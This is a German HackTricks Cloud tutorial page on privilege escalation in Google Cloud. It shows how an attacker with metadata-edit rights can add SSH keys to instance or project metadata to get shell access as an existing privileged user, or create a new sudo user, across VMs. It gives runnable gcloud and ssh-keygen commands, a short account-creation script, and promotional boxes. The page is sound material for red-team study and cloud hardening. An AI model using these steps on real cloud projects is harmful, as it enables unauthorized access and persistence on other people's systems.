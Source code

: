 # GCP - Benutzerdefinierte SSH-Metadaten hinzufügen

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Ändern der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Änderung von Metadaten auf einer Instanz kann zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

### **Integration von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment für Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein wichtiger Bestandteil davon ist der [Accounts-Daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig den Instanz-Metadaten-Endpunkt auf Aktualisierungen der autorisierten SSH-Public Keys zu überprüfen**.

Daher könnte ein Angreifer, der benutzerdefinierte Metadaten ändern kann, den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert wird**. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise einen neuen Benutzer mit `sudo`-Berechtigungen erstellen**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

### **SSH-Schlüssel zu einem vorhandenen privilegierten Benutzer hinzufügen**

1. **Existierende SSH-Schlüssel auf der Instanz überprüfen:**
- Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben und vorhandene SSH-Schlüssel zu lokalisieren. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell unter dem Schlüssel `ssh-keys`.
```bash
gcloud compute instances describe [INSTANZ] --zone [ZONE]
```
- Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername geht dem Schlüssel voraus, getrennt durch einen Doppelpunkt.

2. **Eine Textdatei für SSH-Schlüsselmetadaten vorbereiten:**
- Speichern Sie die Details von Benutzernamen und ihren entsprechenden SSH-Schlüsseln in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten und neue hinzuzufügen.

3. **Einen neuen SSH-Schlüssel für den Zielbenutzer generieren (`alice` in diesem Beispiel):**
- Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, wobei das Format aus den Metadaten der Instanz nachgeahmt wird.

4. **Die SSH-Schlüsselmetadaten der Instanz aktualisieren:**
- Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz mit dem Befehl `gcloud compute instances add-metadata` an.
```bash
gcloud compute instances add-metadata [INSTANZ] --metadata-from-file ssh-keys=meta.txt
```

5. **Auf die Instanz mit dem neuen SSH-Schlüssel zugreifen:**
- Verbinden Sie sich mit SSH mit dem neuen Schlüssel mit der Instanz und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Einen neuen privilegierten Benutzer erstellen und einen SSH-Schlüssel hinzufügen**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Berechtigungen erteilt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den SSH-Zugriff auf mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet** werden. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht explizit die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
- Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel auf allen VMs im Projekt erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH-Zugriff auf Instanzen mit projektweiten Schlüsseln:**
- Mit projektweiten SSH-Schlüsseln können Sie auf jede Instanz innerhalb des Projekts zugreifen. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
- Eine direkte Methode, um sich bei einer Instanz anzumelden, besteht darin, den Befehl `gcloud compute ssh [INSTANZ]` zu verwenden. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.


# Referenzen
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys senden.

</details>

